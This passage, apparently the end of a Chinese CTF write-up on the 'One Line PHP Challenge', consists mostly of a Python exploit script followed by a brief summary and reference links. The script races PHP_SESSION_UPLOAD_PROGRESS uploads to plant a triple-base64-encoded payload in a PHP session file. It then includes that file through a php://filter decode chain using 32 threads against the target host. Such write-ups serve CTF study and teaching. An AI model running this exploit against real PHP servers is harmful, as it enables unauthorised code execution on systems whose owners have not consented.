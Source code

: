```
    x = b64encode(payload + junk)
    xx = b64encode(b64encode(payload + junk))
    xxx = b64encode(b64encode(b64encode(payload + junk)))
    if '=' not in x and '=' not in xx and '=' not in xxx:
        print xxx
        break

def runner1(i):
    data = `{`
        'PHP_SESSION_UPLOAD_PROGRESS': 'ZZ' + xxx + 'Z'
    `}`
    while 1:
        fp = open('/etc/passwd', 'rb')
        r = requests.post(HOST, files=`{`'f': fp`}`, data=data, headers=headers)
        fp.close()

def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    filename = 'php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s' % filename
    # print filename
    while 1:
        url = '%s?orange=%s' % (HOST, filename)
        r = requests.get(url, headers=headers)
        c = r.content
        if c and 'orange' not in c:
            print

if sys.argv[1] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```



## 0X04 总结：

这篇文章在看了 wonderkun 师傅的分析后又简单的跟着 Orange 的提供的思路走了一遍题目的流程，没有新的技术，但是更多的是技术的细节，session.upload_progress 这个小细节之前我也没有想到过，很多的细节就在想当然中过去了，如果你深入挖掘一下，可能会有不一样的收获



## 0X05 参考：

[http://wonderkun.cc/index.html/?p=718](http://wonderkun.cc/index.html/?p=718)

[https://www.leavesongs.com/PENETRATION/php-filter-magic.html](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

[https://github.com/orangetw/My-CTF-Web-Challenges#one-line-php-challenge](https://github.com/orangetw/My-CTF-Web-Challenges#one-line-php-challenge)
